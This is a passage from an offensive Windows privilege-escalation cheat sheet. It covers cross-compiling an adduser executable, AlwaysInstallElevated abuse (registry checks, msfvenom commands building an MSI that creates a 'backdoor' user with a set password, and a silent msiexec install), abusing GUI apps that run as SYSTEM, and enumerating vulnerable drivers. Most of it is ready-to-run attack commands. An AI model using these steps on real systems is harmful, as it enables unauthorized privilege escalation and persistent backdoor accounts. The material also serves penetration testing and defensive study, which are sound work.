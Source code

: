 To cross compile a program from Kali, use the following command.

```powershell
Kali> i586-mingw32msvc-gcc -o adduser.exe useradd.c
```

## EoP - AlwaysInstallElevated

Check if these registry values are set to "1".

```powershell
$ reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
$ reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

$ Get-ItemProperty HKLM\Software\Policies\Microsoft\Windows\Installer
$ Get-ItemProperty HKCU\Software\Policies\Microsoft\Windows\Installer
```

Then create an MSI package and install it.

```powershell
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi-nouac -o evil.msi
$ msiexec /quiet /qn /i C:\evil.msi
```

Technique also available in :
* Metasploit : `exploit/windows/local/always_install_elevated`
* PowerUp.ps1 : `Get-RegistryAlwaysInstallElevated`, `Write-UserAddMSI`


## EoP - Insecure GUI apps

Application running as SYSTEM allowing an user to spawn a CMD, or browse directories.

Example: "Windows Help and Support" (Windows + F1), search for "command prompt", click on "Click to open Command Prompt"

## EoP - Evaluating Vulnerable Drivers
Look for vuln drivers loaded, we often don't spend enough time looking at this:

```powershell
# Native binary
PS C:\Users\Swissky> driverquery.exe /fo table /si
Module Name  Display Name           Driver Type   Link Date
============ ====================== ============= ======================
1394ohci     1394 OHCI Compliant Ho Kernel        12/10/2006 4:44:38 PM
3ware        3ware                  Kernel        5/18/2015 6:28:03 PM
ACPI         Microsoft ACPI Driver  Kernel        12/9/1975 6:17:08 AM
AcpiDev      ACPI Devices driver    Kernel        12/7/1993 6:22:19 AM
acpiex       Microsoft ACPIEx Drive Kernel        3/1/2087 8:53:50 AM
acpipagr     ACPI Processor Aggrega Kernel        1/24/2081 8:36:36 AM
AcpiPmi      ACPI Power Meter Drive Kernel        11/19/2006 9:20:15 PM
acpitime     ACPI Wake Alarm Driver Kernel        2/9/1974 7:10:30 AM
ADP80XX      ADP80XX                Kernel        4/9/2015 4:49:48 PM
<SNIP>

# https://github.com/matterpreter/OffensiveCSharp/tree/master/DriverQuery
PS C:\Users\Swissky> DriverQuery.exe --no-msft
[+] Enumerating driver services...
[+] Checking file signatures...
Citrix USB Filter Driver
    Service Name: ctxusbm
    Path: C:\Windows\system32\DRIVERS\ctxusbm.sys
    Version: 14.11.0.138
    Creation Time (UTC): 17/05/2018 01:20:50
```